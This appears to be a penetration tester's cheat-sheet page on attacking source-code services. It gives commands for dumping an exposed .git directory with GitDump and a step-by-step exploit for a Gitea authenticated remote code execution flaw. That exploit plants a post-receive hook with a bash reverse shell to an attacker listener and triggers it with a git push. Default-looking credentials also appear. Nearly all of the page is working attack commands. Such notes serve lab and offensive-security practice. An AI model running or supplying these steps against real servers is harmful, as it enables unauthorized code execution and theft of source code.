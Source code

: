 Operators Handbook pg 80
https://pentestbook.six2dez.com/enumeration/webservices/github
```bash - kali
git clone https://github.com/Ebryx/GitDump
```
```bash - kali
cd GitDump
```
```bash - kali
python3 git-dump.py http://$TARGET/.git/
```
```bash - kali
cd output && git checkout -- .
```
```bash - kali
git log
```
#### Gitea
https://podalirius.net/en/articles/exploiting-cve-2020-14144-gitea-authenticated-remote-code-execution/
sign in > Create new repository (shelly) > Settings > Git Hooks > post-receive
```bash - Gitea
#!/bin/bash
bash -i >& /dev/tcp/$KALI/3000 0>&1 &
```
```bash - kali
touch README.md
```
```bash - kali
git init
```
```bash - kali
git add README.md
```
```bash - kali
git commit -m "Initial commit"
```
```bash - kali
git remote add origin http://$TARGET:3000/admin1/shelly.git
```
```bash - kali
sudo rlwrap -cAr nc -lvnp 3000
```
```bash - kali
git push -u origin master
```
```bash - kali
admin1
```
```bash - kali
adminadmin
```
